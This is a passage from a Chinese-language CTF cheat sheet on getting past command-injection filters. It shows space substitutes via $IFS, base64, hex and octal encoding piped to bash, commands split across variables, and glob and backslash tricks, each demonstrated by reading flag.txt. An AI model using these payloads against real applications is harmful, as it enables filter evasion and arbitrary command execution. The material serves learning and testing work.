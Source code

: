 &emsp;&emsp;`echo 12$IFS$134`，$1~9、\$@、\$* 都是内置变量，可截断变量名。

###### <>、<绕过

&emsp;&emsp;<> 和 < 可替代空格。

##### <<过滤命令

###### 编码绕过

- base64

  ```bash
  echo 命令|base64  #输出命令进行base64加密后的密文
  echo 加密后的命令|base64 -d|bash  #先解密命令，再输出命令由bash执行的结果
  echo$IFS$1加密后的命令|base64$IFS$1-d|bash  #同时过滤了空格时
  ```

- hex 16进制

  ```bash
  echo 0x加密后的命令|xxd -r -p|bash #先解密命令，再输出命令由bash执行的结果
  或 #16进制编码下l为6c，s为73
  $(printf "\x6c\x73") #输出ls的执行结果
  ```

- oct 8进制

  ```bash
  $(printf ls) #或$(echo ls)，输出ls的执行结果
  #8进制编码下l为154，s为163
  $(printf "\154\163") #输出ls的执行结果
  ```


###### 局部变量绕过

&emsp;&emsp;将命令拆分为多个变量，通过输入变量名的方式绕过。如 `cat flag.txt` ，可拆解为 `a=c;b=a;c=t;d=.txt;e=ag;f=fl;$a$b$c$IFS$f$e$d` 。

###### []、{}绕过

&emsp;&emsp;类似正则匹配，[] 匹配其内一个字符，{} 匹配其内所有字符，如：

```bash
cat f[l,s]ag.txt #或cat f[a-z]ag.txt
#输出：flag{this_1s_f1@9}
cat f{l,s}ag.txt
#输出：
#flag{this_1s_f1@9}
#cat: fsag.txt: 没有那个文件或目录
```

###### 内置变量绕过

&emsp;&emsp;内置变量如上述，`cat flag.txt` 可添加为如 `c\$1a\$2t\$IFS$*flag.txt`。

###### 反斜杠绕过

​		`cat flag.txt`
